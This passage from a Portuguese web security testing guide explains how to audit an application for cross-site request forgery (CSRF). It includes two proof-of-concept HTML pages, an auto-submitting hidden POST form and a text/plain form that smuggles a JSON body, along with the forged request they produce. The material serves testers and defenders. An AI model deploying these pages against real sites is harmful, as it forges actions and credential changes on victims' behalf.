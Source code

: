 Audite a aplicação para determinar se sua gestão de sessão é vulnerável. Se a gestão de sessão depender apenas de valores do lado do cliente (informações disponíveis para o navegador), então a aplicação é vulnerável. "Valores do lado do cliente" referem-se a cookies e credenciais de autenticação HTTP (Autenticação Básica e outras formas de autenticação HTTP; não autenticação baseada em formulário, que é uma autenticação de nível de aplicação).

Recursos acessíveis por solicitações HTTP GET são facilmente vulneráveis, embora solicitações POST possam ser automatizadas por meio de JavaScript e também sejam vulneráveis; portanto, o uso apenas de POST não é suficiente para corrigir a ocorrência de vulnerabilidades CSRF.

No caso de POST, o seguinte exemplo pode ser usado.

1. Crie uma página HTML semelhante à mostrada abaixo.
2. Hospede o HTML em um site malicioso ou de terceiros.
3. Envie o link da página para a vítima(s) e a induza a clicar nele.

```html
<html>
<body onload='document.CSRF.submit()'>

<form action='http://targetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

No caso de aplicações web em que os desenvolvedores estão utilizando JSON para comunicação entre navegador e servidor, pode surgir um problema com o fato de não haver parâmetros de consulta com o formato JSON, que são necessários com formulários de envio automático. Para contornar esse caso, podemos usar um formulário de envio automático com payloads JSON incluindo uma entrada oculta para explorar CSRF. Teremos que alterar o tipo de codificação (`enctype`) para `text/plain` para garantir que o

 payload seja entregue como está. O código de exploração será semelhante ao seguinte:

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```

A solicitação POST será a seguinte:

```http
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```
